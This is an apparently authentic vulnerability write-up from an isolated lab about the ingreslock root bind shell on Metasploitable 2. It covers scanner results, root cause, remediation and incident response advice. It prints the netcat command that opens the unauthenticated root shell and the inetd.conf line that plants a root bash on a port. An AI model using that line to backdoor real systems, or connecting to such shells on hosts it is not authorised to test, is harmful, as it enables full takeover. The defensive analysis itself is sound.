








# Critical - Unauthenticated Root Bind Shell on TCP 1524 (ingreslock backdoor)

[Back to Lab README](../README.md)

## Asset / Context
- Host: Metasploitable 2 (Ubuntu 8.04), 192.168.60.101
- Network: isolated Hyper-V internal switch (192.168.60.0/24), no internet access for the target
- Scanners:
  - Nessus Essentials (Basic Network Scan, unauthenticated) from the Windows host
  - OpenVAS / Greenbone Community Edition (Full and fast) from a Kali VM
- Date: 2026-10-13

## Finding
A shell is listening on TCP port 1524 without any authentication. Anyone who can reach the port gets an interactive command line as **root**.

Any device on the network can take full control of this host in seconds without credentials, and because this is a planted backdoor rather than a software bug, the host has to be treated as already compromised.

Both scanners detected it, under different names:

| | Nessus | OpenVAS |
|---|---|---|
| Name | Bind Shell Backdoor Detection | Possible Backdoor: Ingreslock |
| ID | Plugin 51988 | OID 1.3.6.1.4.1.25623.1.0.103549 |
| Severity | Critical, CVSS v3.0 **9.8** | Critical, CVSS v2 **10.0** |
| Vector | AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H | AV:N/AC:L/Au:N/C:C/I:C/A:C |
| Detection | Sent `id`, received `uid=0(root)` | Sent `id;`, received `uid=0(root)`, QoD 99% (remote_vul) |

Both confirmed the issue with an **active check** (they ran a command and got root back) instead of inferring it from a version banner. The score difference comes from CVSS v3.0 vs v2, not from the scanners disagreeing.

## Evidence
- Nessus finding: 
- OpenVAS finding: 

## Validation
Connected manually from Kali with netcat:

```
nc -nv 192.168.60.101 1524
id; hostname
```

- The connection opened straight into a `root@metasploitable:/#` prompt, no credentials asked.
- `id` returned `uid=0(root) gid=0(root)`.
- Result: **real finding, not a false positive.**



## Root cause
The scanner page only says "a shell answers on 1524" (Nessus labels the service `wild_shell`). Port, process and configuration had to be identified on the host.

**Configuration** (`/etc/inetd.conf`):
```
ingreslock stream tcp nowait root /bin/bash bash -i
```
inetd-style "super-servers" listen on many ports and start a program per connection, based on this list. This line tells it to start an interactive `bash` **as root** for every connection to port 1524 (`ingreslock` is the port's name in `/etc/services`). The super-server never authenticates anyone; that is normally the started program's job (telnetd, ftpd and so on). Wiring `bash` directly to the socket skips login entirely.

**Process** (`sudo netstat -tlnp | grep 1524`):
```
tcp  0  0 0.0.0.0:1524  0.0.0.0:*  LISTEN  5660/xinetd
```
The listener is **xinetd** (running in inetd compatibility mode, so it reads `/etc/inetd.conf`), not openbsd-inetd, although both are installed on this host. It listens on all interfaces (`0.0.0.0`).


## Risk / Prioritization
CVSS says Critical, but the priority decision is based on more than the score:

- **Exposure:** listening on all interfaces, reachable by any host on the segment, no authentication.
- **Exploitability:** no exploit needed, a single netcat command is enough.
- **No CVE:** it is not a product vulnerability, so there is no CVE, EPSS score or KEV entry (Nessus shows no VPR/EPSS for it). A prioritization process driven only by CVE data would not surface it.
- **Impact:** root means full control of the host and a pivot point into the rest of the network.
- **Nature:** no legitimate admin configures this. In a real environment it is an **indicator of compromise**, not just a vulnerability. Both vendors' guidance says the same: Nessus ("verify if the remote host has been compromised, and reinstall"), OpenVAS ("a whole cleanup of the infected system is recommended").
- **Contrast:** the highest CVSS on the same scan was "Canonical Ubuntu Linux SEoL (8.04.x)" at 10.0. End-of-life is a real risk, but the response to it is planned migration work, not incident response. The bind shell, despite its slightly lower 9.8, is the immediate priority. Highest score does not mean highest urgency.

## Remediation
**Lab fix** (on the Metasploitable console as msfadmin):

```
sudo sed -i 's/^ingreslock/#ingreslock/' /etc/inetd.conf
sudo /etc/init.d/xinetd restart
```

The line is commented out rather than deleted, so the change stays documented and reversible.

**Why xinetd and not inetd:** the config lives in `/etc/inetd.conf`, so the obvious assumption is that openbsd-inetd serves the port. `netstat` showed the listener is actually **xinetd** (PID 5660), running in inetd compatibility mode. Restarting openbsd-inetd would not have closed the port; restarting xinetd did. Confirming which process owns the port before acting is what made the fix work the first time.

**Verification:**
- `sudo netstat -tlnp | grep 1524` returns nothing.
- `nc -nv 192.168.60.101 1524` returns **Connection refused**.
- Nessus rescan (same scan, same policy): "Bind Shell Backdoor Detection" no longer reported; the host's total findings dropped from 69 to 68.
- OpenVAS rescan: filtering for "ingreslock" returns an empty report (present in the pre-fix report, gone after).






**In a real environment** removing the line would not be enough. The response would be:
1. Isolate the host from the network.
2. Preserve evidence (memory, disk) **before** changing anything.
3. Hand over to incident response to establish how the backdoor got there and what else was touched.
4. Rebuild from a known-good image and rotate credentials used on or stored on the host.
5. Hunt for the same indicator on other hosts (for example, scan the estate for open TCP 1524 and check super-server and systemd configs).
6. Add detection: file integrity monitoring on `/etc/inetd.conf`, `/etc/xinetd.d/` and systemd unit directories, plus alerts on new listening ports or shells whose input/output is a network socket.

## Scanner comparison
- **Bind shell:** both scanners caught it with an active check, under different names (Nessus "Bind Shell Backdoor Detection", OpenVAS "Possible Backdoor: Ingreslock").
- **vsftpd 2.3.4 backdoor:** OpenVAS reported "vsftpd Compromised Source Packages Backdoor Vulnerability - Active Check" (9.8, QoD 99%) on 21/tcp and 6200/tcp. Port 6200 is where that backdoor opens its shell, so the active check actually triggered it. Nessus (Basic Network Scan) only listed "vsftpd Detection" as informational, most likely because its safe checks skip tests that change the target's state.
- **Takeaway:** coverage depends on the tool and on the scan policy, and "safe checks" is a real trade-off in production (missed findings vs. the risk of affecting live systems). The same finding can also appear under different names across tools, so comparing by behaviour and port matters more than matching titles.



## Priority / Notes
- **Treat as incident, not patch ticket.** Contain and investigate first; the config change is the last step, not the first.
- Lab-specific: Metasploitable 2 ships with this backdoor on purpose, so removing the config line is sufficient here.

## Lessons learned / what I'd do differently
- **Credentialed scan:** the unauthenticated scan reported "OS Security Patch Assessment Not Available", so it only saw what the network exposes. A credentialed scan would add installed-package and local configuration findings.
- **Preserve evidence before remediating**, as incident response would require.
- **Check host security tools before scanning:** the antivirus on the scanning host (Bitdefender) blocked Nessus's directory traversal probes as "exploit attempts". Blocked probes are silently recorded as "not vulnerable", so the first run was incomplete. Fixed with an exclusion scoped to the target IP and a full rescan. In production this is handled with documented scanner exclusions coordinated with the SOC, so scans are neither sabotaged by security tools nor mistaken for real attacks.
- **Confirm which process owns a port before fixing** (xinetd vs openbsd-inetd).
